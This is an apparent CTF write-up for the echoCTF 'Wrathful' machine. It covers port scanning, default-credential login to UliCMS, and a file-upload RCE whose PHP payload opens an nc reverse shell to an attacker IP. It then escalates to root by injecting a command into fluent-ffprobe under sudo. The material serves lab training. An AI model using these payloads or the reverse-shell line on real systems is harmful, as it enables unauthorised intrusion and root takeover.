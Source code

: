 ```yaml
---
description: >-
  Wrathful echoCTF Machine
title: Wrathful (Intermediate)                # Add title here
date: 2025-02-25 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, Arbitrary Command Injection, UliCMS]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Wrathful.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.232
```

### Content

- Default Credentials
- Ulicms - Remote Code Execution (RCE)
- Arbitrary Command Injection in fluent-ffprobe

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.237
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.237 ()   Status: Up
Host: 10.0.160.237 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.237
Nmap scan report for 10.0.160.237
Host is up, received user-set (0.18s latency).
Scanned at 2025-02-25 12:27:53 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 3a:29:65:08:4d:a0:e7:f1:11:ba:00:4a:13:e6:7c:46 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOYx6YnF9iFKePvj48+MTqOwkSZzjqnmtKIKUVWVEzMp
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET
|_http-title: Sample Page > Welcome
|_http-server-header: Apache/2.4.61 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

There is a Web Service running on port 80 called `UliCMS` looking for exploits on it, I've identified the following [Ulicms - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51434), but the exploit requires authentication, I then tried to login using Default Credentials, and I got the pair `admin:admin1234`, with this, we can execute the script which is an OS Command Injection vulnerability, using the following POST request, which uploads a .phar malicious file to our profile image:
```bash
POST /admin/index.php HTTP/1.1
Host: 10.0.160.237
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.0.160.237/admin/index.php?action=admin_edit&id=1&ref=home
Content-Type: multipart/form-data; boundary=---------------------------343146591322721372102377782251
Content-Length: 2239
Origin: http://10.0.160.237
Connection: keep-alive
Cookie: 668c349d57509_SESSION=6pd2gi1hq4amrdg96k71hn0qi4
Upgrade-Insecure-Requests: 1

-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="csrf_token"

62140af85d6eb36eac83a3996ab25cfd
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="sClass"

UserController
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="sMethod"

update
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="avatar"; filename="exploit.phar"
Content-Type: application/octet-stream

<?php echo system("nc -e /bin/bash 10.10.5.122 1234"); ?>

-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="edit_admin"

edit_admin
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="id"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="firstname"

adm
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="lastname"

in
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="email"

admin@wrathful.echocity-f.com
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="password"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="password_repeat"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="group_id"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="homepage"


-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="html_editor"

ckeditor
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="admin"

1
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="default_language"

en
-----------------------------343146591322721372102377782251
Content-Disposition: form-data; name="about_me"


-----------------------------343146591322721372102377782251--

```
File upload error may occur, but this does not mean that the file is not uploaded and the file location is shown in the error
```bash
Imagine\Exception\RuntimeException: Unable to open image /var/www/html/content/tmp/67bdfbd4298b8.phar
```
Then all we need to do is visit the web page:
```bash
http://10.0.160.237/content/tmp/67bdfbd4298b8.phar
```

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@wrathful:/var/www/html/content/tmp$ sudo -l
Matching Defaults entries for www-data on wrathful:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on wrathful:
    (ALL : ALL) NOPASSWD: /usr/local/bin/ffprobe
```
Its content is like this:
```bash
#! /usr/bin/env node
const fluent_ffprobe = require("fluent-ffprobe")
var args = process.argv.slice(2);
var backParams=args[0]
var file=args[1];
var frontParams=args[2]
console.log(fluent_ffprobe.get_raw(backParams, file, frontParams));
```

As usual, the vulnerability relays on the imported library, in this case `fluent-ffprobe`, there is a vulnerability reported as [Arbitrary Command Injection](https://gist.github.com/icemonster/1b7627d06cd67717fead1dad0d0f9c72), after reading the article I came with the following payload:
```bash
www-data@wrathful:/tmp$ PAYLOAD='$(/bin/bash -c "chmod +s /bin/bash")'
www-data@wrathful:/tmp$ sudo /usr/local/bin/ffprobe "$PAYLOAD" dummy
www-data@wrathful:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for UliCMS are `admin:admin1234`

### Notes

- No fancy tricks here, all you need to search for is a good exploitation and default credentials.

### References

- [Ulicms - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51434)
- [Arbitrary Command Injection](https://gist.github.com/icemonster/1b7627d06cd67717fead1dad0d0f9c72)
